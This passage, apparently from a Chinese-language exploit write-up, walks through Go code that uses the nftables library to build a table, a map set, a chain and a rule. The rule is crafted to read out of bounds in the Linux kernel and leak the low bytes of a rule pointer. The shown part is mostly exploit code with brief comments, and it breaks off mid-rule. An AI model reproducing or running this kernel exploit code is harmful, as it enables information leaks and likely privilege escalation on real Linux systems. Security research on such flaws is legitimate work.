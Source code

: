 ```
)
```  
  
先创建conn对象，用于向nftables添加或删除table、chain等结构。  
```
  conn, err := nftables.New(nftables.WithNetNSFd(int(ns)))
  if err != nil {
    panic(err)
  }
  conn.FlushRuleset()
```  
  
创建要jump到的table等，通过set可以泄漏少量字节，用于泄漏rule指针低字节地址  
```
  my_table := conn.AddTable(&nftables.Table{
    Name:   "my_table",
    Family: nftables.TableFamilyIPv4,
  })

  my_set := nftables.Set{
    Anonymous: false,
    Constant:  false,
    Name:      "my_set",
    ID:        1,
    IsMap:     true,
    Table:     my_table,
    KeyType:   nftables.TypeInteger,
    DataType:  nftables.TypeInteger,
  }

  err := conn.AddSet(&my_set, nil)
  if err != nil {
    panic(err)
  }

  my_chain := conn.AddChain(&nftables.Chain{
    Name:  "my_chain",
    Table: my_table,
  })
```  
  
添加可以越界读的rule，最后一个表达式用于开启NFT_META_NFTRACE，这样才能获得Dynset的element。  
```
  conn.AddRule(&nftables.Rule{
    Table: my_table,
    Chain: my_chain,
    Exprs: []expr.Any{
      &expr.Byteorder{
        SourceRegister: 18,
        DestRegister:   8,
        Op:             expr.ByteorderHton,
        Len:            24,
        Size:           2,
      },
      &expr.Immediate{
        Register: 8,
        Data:     []byte{0x00, 0x00, 0x00, 0x00},
      },
      &expr.Dynset{
        SrcRegKey:  8,
        SrcRegData: 14,
        SetName:    "my_set",
        Operation:  uint32(unix.NFT_DYNSET_OP_ADD),
      },
      &expr.Immediate{
```